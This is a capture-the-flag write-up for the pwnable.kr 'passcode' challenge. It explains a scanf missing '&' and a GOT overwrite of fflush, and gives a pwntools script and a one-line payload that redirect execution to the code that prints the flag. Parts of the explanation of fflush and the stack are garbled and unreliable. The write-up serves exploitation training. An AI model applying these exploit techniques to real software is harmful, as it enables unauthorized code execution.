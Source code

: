 # **passcode**

![](https://i.imgur.com/IcNGRJL.png)

```shell=
ssh passcode@pwnable.kr -p2222
```

First, ssh to the server, then list it, you'll get the source code like following:

```shell=
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Cuz to `scanf("%d", passcode1);` scan without "&", so we can input a memory address to make it overwrittrn to another function.

Accroding to designer's planning, there's a suspicious function : `fflush(stdin);`.

We can input `fflush()`'s address in GOT to `scanf()` to make it being overwritten, not cuz to `fflush()` is following behind `scanf("%d", passcode1);`, this point must be clearly recognized, so no matter `fflush()` locates in where, this attack will work.

![](https://i.imgur.com/mtMPjku.png)

To let `scanf()` overwrite `fflush()`, we should get the `fflush()`'s address in GOT（Global offset Table）.

GOT is a helpful design for process executing, when a new process is being executed, it will ask PLT(Procedure Linkage Table) about function's GOT address for any function that is imported from library.

Overall, the GOT is static function address that you can call it or more over to overwrite it and make a ROP chain.

This challenge is to make `scanf("%d", passcode1);` to be `scanf("%d",fflush@plt());` and let `fflush()` to ouput the `$esp` which is its own ability.

![](https://i.imgur.com/hpMsuAX.png)
![](https://i.imgur.com/p7pWYQL.png)

We got the `fflush()`'s address is `0x0804a004`.

Then we check that `name` store in `-0x70(%ebp)`, `passcode1` in `-0x10(%ebp)` and `passcode2` in `-0xc0(%ebp)`.

Hence, we found that **offset : 0x70-0x10 = 96 -> name – passcode1 = 96**. So name's last 4 byte can overwrite the `passcode1` to `fflush()`'s address, then when scanf() is called, it will set the input into `fflush()`. 


![](https://i.imgur.com/niiKcWn.png)

Normally, `fflush()` should output the **current** `$esp` then keep going down, but with our malicious offset, it can be set to the line which process just mov flag into `$esp` then continue, so those lines after `if(passcode1==338150 && passcode2==13371337)` before `system("/bin/cat flag");` will all be fine.(`0x080485d7`~`0x080485e3`)

Use script like following:

```
#!/usr/bin/python 

from pwn import *

target = process('/home/passcode/passcode')

fflush = 0x0804a004

system = 0x080485d7

payload = "A" * 96 + p32(fflush) + str(system)

target.send(payload)

target.interactive()
```

Or python shell :

![](https://i.imgur.com/STkc88R.png)

`python -c "print ('A'*96+'\x04\xa0\x04\x08'+'134514147')" | ./passcode`

![](https://i.imgur.com/ygWdr5n.png)

Fin.

